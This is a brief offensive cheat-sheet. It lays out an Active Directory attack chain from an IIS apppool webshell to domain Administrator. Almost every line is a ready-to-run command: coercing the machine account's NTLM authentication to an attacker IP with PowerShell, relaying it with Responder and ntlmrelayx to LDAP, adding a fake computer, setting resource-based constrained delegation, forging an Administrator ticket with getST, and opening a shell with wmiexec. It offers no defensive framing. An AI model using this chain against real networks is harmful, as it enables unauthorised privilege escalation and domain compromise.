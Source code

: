 # IIS apppool account NTLM Relay to LDAP with RBCD

## Intro

Privilege escalation IIS apppool webshell to Admin

## HTTP coerce of the machine account

```shell
powershell -iwr http://<ip_attack> -UseDefaultCredentials
responder -I <interface> -v
```

### NTLM Relay to LDAP for RBCD (ou Shadow credentials)

```shell
ntlmrelayx -t ldap://<dc_ip> -smb2support --interactive
nc 127.0.0.1 11000
# start_tls
# add_computer fakePC P@ssword123
# set_rbcd <target_rbcd> fakePC$ 
```

### Profit :)

```shell
getsT.py -spn cifs/<target_rbcd>.example.com -impersonate Administrator -dc-ip <dc_ip/fqdn> 'example.com/fakePC$:P@ssword123'
export KRB5CCNAME=Administrator@cifs_<target_rbcd>.example.com.ccache
wmiexec.py -k -no-pass @<target_rbcd>.example.com
```

## Sources
- https://x.com/M4yFly/status/1745581076846690811

